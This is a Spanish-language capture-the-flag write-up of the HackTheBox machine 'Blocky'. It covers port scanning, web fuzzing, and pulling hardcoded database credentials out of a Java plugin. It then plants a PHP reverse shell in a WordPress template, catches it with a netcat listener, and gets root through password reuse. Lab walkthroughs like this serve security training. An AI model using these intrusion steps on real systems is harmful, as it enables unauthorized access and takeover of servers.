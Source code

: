 ```yaml
---
layout: single
title: Blocky - HTB Machine
excerpt: "Máquina linux de dificultad EASY de la plataforma HackTheBox. Se tratan temas de lectura de ficheros java y sql"
date: 2021-09-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-blocky/portada-blocky.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HTB
tags:
  - java
  - sql
  - wordpress
  - easy
  - linux
---
```


![](/assets/images/htb-writeup-blocky/portada-blocky.png)

Blocky es una máquina linux relativamente sencilla. Y con relativamente me refiero a que tiene una solución tan simple que como no la pilles desde el primer momento te va a costar. Si este es tu caso no te preocupes, aquí verás como se resuelve paso a paso y tendrás a tu disposición un índice para ir donde te interesa sin comerte spoilers. Dicho esto, pongámonos manos a la obra.

## Índice
* [Fase de reconocimiento](#reconocimiento)
  * [Reconociento de puertos y servicios](#reconocimiento)
  * [Reconocimiento de la página web](#reconocimiento-web)
  * [Fuzzing de la web](#fuzzing)
* [Fase de explotación](#explotacion)
* [Escalada de pivilegios](#escalada)

<a id="reconocimiento"></a>
## Fase de reconocimiento

### Reconocimiento de puertos y servicios


Empezaremos utilizando nmap para descubrir los puertos abiertos accesibles(digo accesibles ya que la máquina puede tener más puertos abiertos pero que solo son accesibles desde la misma).
```bash
nmap -p- -sS --min-rate 5000 --open -Pn -n -vvvv 10.10.10.37 -oN writeup-scan-ports
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 15:40 CEST
Initiating SYN Stealth Scan at 15:40
Scanning 10.10.10.37 [65535 ports]
Discovered open port 80/tcp on 10.10.10.37
Discovered open port 21/tcp on 10.10.10.37
Discovered open port 22/tcp on 10.10.10.37
Discovered open port 25565/tcp on 10.10.10.37
Completed SYN Stealth Scan at 15:40, 30.42s elapsed (65535 total ports)
Nmap scan report for 10.10.10.37
Host is up, received user-set (1.1s latency).
Scanned at 2021-09-24 15:40:00 CEST for 30s
Not shown: 65530 filtered ports, 1 closed port
Reason: 65530 no-responses and 1 reset
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 30.51 seconds
           Raw packets sent: 131081 (5.768MB) | Rcvd: 30 (1.312KB)
```

Como podemos observar, hay varios puertos interesantes. En el puerto 21 corre un servicio *ftp*. Esto nos daría la idea de probar si nos pudieramos identificar con el usuario anonymous y sin contraseña pero en este caso no funciona. También hay un servicio *ssh* que puede que nos sirva de ayuda más adelante, un servicio *http* donde se encuentra la página web y por último pero no menos importante, un servidor de minecraft. Este último nos da una pequeña pista de lo que tendremos que hacer después aunque no utilicemos este puerto.

Una vez escaneados los puertos, escanearemos más en profundidad para ver que servicios usan y sus respectivas versiones.

```bash
nmap -sC -sV -p21,22,80,25565 -oN targeted 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.054s latency).

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 24 13:19:42 2021 -- 1 IP address (1 host up) scanned in 11.28 seconds

```

Lo más importante que hay que destacar del escaneo es que el servidor utiliza un Wordpress de version 4.8. Sin embargo, si buscamos exploits de esta version o utilizamos herramientas como wpscan nos daremos cuenta de que no existe ninguna vía potencial de explotación. Al igual pasa con el servicio ProFTPD 1.3.5a.

<a id="reconocimiento-web"></a>
### Reconocimiento de la página web


Una vez habiendo escaneado al servidor, es hora de analizar la página manualmente. Como tiene un servicio http corriendo en el puerto 80 apuntamos a la dirección de la máquina desde nuestro navegador.

![](/assets/images/htb-writeup-blocky/pg-principal.PNG)

Tras no encontrar ninguna vulnerabilidad en el wordpress y haber trasteado con la página web, la única información de valor que podemos obtener es la del nombre de un usuario: ```notch```. Sin embargo, si intentamos logearnos con credenciales por defecto como 1234 o admin como contraseña o incluso si aplicamos fuerza bruta con el diccionario de *rockyou.txt* no conseguimos nada. A estas alturas lo mejor es ir en busca de directorios ocultos en el sitio web.

<a id="fuzzing"></a>
### Fuzzing de la web

Para fuzzear la página he utilizado la herramienta wfuzz con el diccionario directory-list-2.3-medium de dirbuster:

```bash

wfuzz -c --hw=3592 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.10.37/FUZZ
 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.37/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000190:   301        9 L      28 W       309 Ch      "wiki"                            
000000241:   301        9 L      28 W       315 Ch      "wp-content"                           
000000519:   301        9 L      28 W       312 Ch      "plugins"                                
000000786:   301        9 L      28 W       316 Ch      "wp-includes"                    
000001073:   301        9 L      28 W       315 Ch      "javascript"
000007180:   301        9 L      28 W       313 Ch      "wp-admin"                               
000010825:   301        9 L      28 W       315 Ch      "phpmyadmin"
```

Como podemos observar, hay una ruta llamada plugins. 

<a id="explotacion"></a>

![](/assets/images/htb-writeup-blocky/plugins.PNG)

## Fase de explotación

Descarguémonos los plugins para ver que contienen. Como .jar es una extensión de un archivo comprimido los descomprimimos con ```unzip [nombre del archivo]```. 
Una vez hecho esto nos centraremos en el plugin *BlockyCore.class* que se encuentra dentro de la carpeta ```com->myfirstpuglin```.

Con ```javap -c BlockyCore.class``` diseccionamos el código y encontramos lo siguiente:

```bash
public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```

Como podemos observar, hay credenciales para el usuario root de lo que sería problamente el phpmyadmin que encontramos cuando fuzzeamos. Las probamos y entramos como root.

![](/assets/images/htb-writeup-blocky/phpmyadmin-login.PNG)

Una vez dentro, como hemos entrado con permisos de administrador, podemos modificar la contraseña de wordpress del usuario notch.

![](/assets/images/htb-writeup-blocky/phpmyadmin-change1.PNG)

![](/assets/images/htb-writeup-blocky/phpmyadmin-change2.PNG)

Ahora entramos en wordpress como usuario administrador y hacemos una reverse shell. Para ello nos dirigimos a ```Appearance->Editor``` y modificamos la plantilla 404.php.

![](/assets/images/htb-writeup-blocky/wp-login_reverse_shell.PNG)

En ella pegamos este <a href="https://github.com/jivoi/pentest/blob/master/shell/rshell.php" target="_blank">script de reverse shell</a>.

Editamos la ip y el puerto en el script, además de ponernos en escucha desde nuestro ordenador de atacante:

```bash
nc -nlvp 443 
```
En mi caso me he puesto en escucha por el puerto 443. Ahora, abrimos la página web por la ruta [IP]/?p=404.php para que nos apunte a nuestro código php malicioso. Esto nos mandará una shell a nuestro netcat dandónos acceso al servidor como el usuario www-data.


<a id="escalada"></a>

## Escalada de privilegios

A estas alturas del ataque deberíamos de hacer un reconocimiento del sistema buscando potenciales vectores de ataque como las capabilities o los archivos SUID. No obstante, la solución es mucho más sencilla que eso. Si utilizamos la contraseña de phpmyadmin para convertirte en notch (```su notch```), nos damos cuenta de que es la misma. Como notch es un sudoer podemos hacer ```sudo su``` y con la contraseña de notch nos convertimos en root.


Evidentemente hay muchas maneras distintas de comprometer un servidor, en este caso por ejemplo podríamos haber intentado un *ssh* con el usuario notch y la contraseña de phpmyadmin e igualmente hubieramos entrado al sistema. De todas formas esta es la forma que encuentro más coherente de operar.
